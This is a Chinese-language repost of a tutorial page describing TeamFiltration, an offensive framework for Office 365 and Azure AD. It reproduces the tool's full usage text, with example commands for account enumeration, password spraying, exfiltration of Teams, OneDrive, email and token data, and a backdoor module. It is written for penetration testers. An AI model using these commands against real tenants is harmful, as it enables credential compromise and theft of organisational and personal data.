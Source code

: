# TeamFiltration:用于枚举、喷洒、渗透和后门 O365 AAD 帐户的跨平台框架

> 原文：<https://kalilinuxtutorials.com/teamfiltration/>

[![](img//603af109ccff5f929b9db4f04bd391e5.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKH5Y-PgHTtzZK_5Rdq3MwJ5vIogvPByaGlGgnmzBLcMteEdsSlzZvpDkIYKyHkqPij9YJzCUzjmaUvr7E-vnm9dRjXE-P1CWrYfE_Z2pjiduwOZa1Hrs2p7qtXxzxLLqcNYUHPUZ53iO9DYmz7qqGdeONp1tsquukRmHaZnd1EiAko5gi81xH0Hd_/s728/TeamFiltration.png)

**TeamFiltration** 是一个跨平台的框架，用于 O365 AAD 账号的枚举、喷、渗、后门。参见 [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration) wiki 页面了解 TeamFiltration 如何工作，以及[快速入门指南](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration#quick-start-guide)了解如何启动和运行！

这个工具从 2021 年 1 月开始在内部使用，并在 DefCON30 期间我的演讲“在云中装个哑巴”中公开发布。

## 下载

[您可以下载适用于 Linux、Windows 和 MacOSX X64 的最新预编译版本](https://github.com/Flangvik/TeamFiltration/releases/latest)

这些版本被预编译成一个依赖于应用程序的二进制文件。大小增加了，但是您不需要 DotNetCore 或任何其他依赖项来运行它们。

## 用法

```
[�] TeamFiltration V0.3.3.7 PUBLIC, created by @Flangvik @TrustedSec
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module  

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --cookie-dump         Override to target a given account using it's refresk-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit     Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens              Exfiltrate JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks recent Azure Active Directory password brute-forcing vuln for spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --seasons-only        Password generated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --combo               Path to a combolist of username:password
         --exclude              Path to a list of emails to exclude from spraying

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --delay               Delay in seconds between each individual authentication attempt. default=0
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Add burp as a proxy on 127.0.0.1:8080

   Examples:

        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --all 
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --aad  
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --database
```

[Click Here To Download](https://github.com/Flangvik/TeamFiltration)